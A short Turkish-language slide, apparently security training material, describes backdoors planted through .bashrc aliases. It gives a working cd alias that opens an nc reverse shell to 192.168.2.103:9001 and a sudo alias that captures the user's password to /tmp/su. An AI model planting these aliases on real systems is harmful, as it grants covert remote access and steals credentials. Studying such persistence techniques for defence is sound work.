

# Backdoor: .bashrc - alias komutunun kötüye kullanımı
Alias, bir komuta alternatif bir ad atanabilen ve genellikle kısaltılmış bir şekilde kullanılan bir özelliktir.
Saldırganlar,, bu özelliği kullanarak kullanıcıların alias'larına arka kapı ekleyebilir.
Aşağıda, cd komutu için bir alias kullanarak reverse shell formunda bir arka kapı oluşturuldu.
Bu arka kapı, belirli bir IP adresi (192.168.2.103) ve port numarası (9001) üzerinden bir ters kabuk (reverse shell) bağlantısı kurar.
Aşağıda, sudo komutuna bir takma ad (alias) ekleyerek, kullanıcının sudo için şifresini girmesini bekleyen sahte bir sudo girişi oluşturur.
Kullanıcıya "[sudo] password for $USER: " şeklinde sahte bir sudo parola girişi mesajı gösterir.
Kullanıcının girdiği şifreyi okur ve /tmp/su dosyasına yazıp kaydeder.
Ardından, /usr/bin/sudo komutunu asıl parametreleriyle birlikte çağırır.
root@pinkys-palace:~# alias cd='$(nc 192.168.2.103 9001 -e /bin/bash&); cd'

alias sudo='echo -n "[sudo] password for $USER: " && read -r password && echo "$password" >/tmp/su && /usr/bin/sudo $@'
Kaynak: Fahmi FJ where Linux Backdoors and Where to Find Them  on github